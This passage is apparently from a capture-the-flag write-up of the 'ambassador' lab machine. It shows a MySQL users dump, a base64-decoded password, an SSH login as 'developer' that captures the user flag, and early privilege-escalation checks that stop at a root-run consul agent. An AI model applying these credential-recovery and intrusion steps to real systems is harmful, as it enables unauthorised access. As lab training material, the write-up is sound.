 ```bash
MySQL [whackywidget]> SELECT * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.021 sec)
```

This password looks like a base64 string padded out, rather than a one-way hash:

```bash
$echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
anEnglishManInNewYork027468
```

I was able to SSH in with the above to get a foothold on the system and subsequently now had the user flag! Hooray!:

```bash
$ssh developer@10.10.11.183
The authenticity of host '10.10.11.183 (10.10.11.183)' can't be established.
ECDSA key fingerprint is SHA256:+BgUV7q/7f6W3/1eQWhIKW2f8xTcBh3IM0VwbIAp2A8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.183' (ECDSA) to the list of known hosts.
developer@10.10.11.183's password: 
Last login: Thu Jan 26 06:56:31 2023 from 10.10.14.18
developer@ambassador:~$ ls
snap  user.txt
developer@ambassador:~$ cat user.txt
3d9d82f72c72f7406d20f509356e2f1e
```

## Privilege Escalation

I won't write every gory  detail here, but suffice to say, I tried low hanging fruit:
* sudo -- can't run sudo as developer user
* no unusual processes running
* no setuid binaries I can execute
* nothing in my home directory
* nothing unusual in my printenv
* there's a path `/development-machine-documentation/`, which contains the static hugo site we found earlier -- it contains a deploy.sh which copies files into `/var/www/html`.  Nothing stood out here as helpful to gaining root

The most obvious thing running as root that looked interesting was the consul agent:

```bash
developer@ambassador:/etc/consul.d/config.d$ ps aux | grep consul
root        1070  0.4  3.8 795828 76960 ?        Ssl  05:26   1:28 /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl
```

Unfortunately, I didn't have permission to read the config directory or file passed as params to the process.
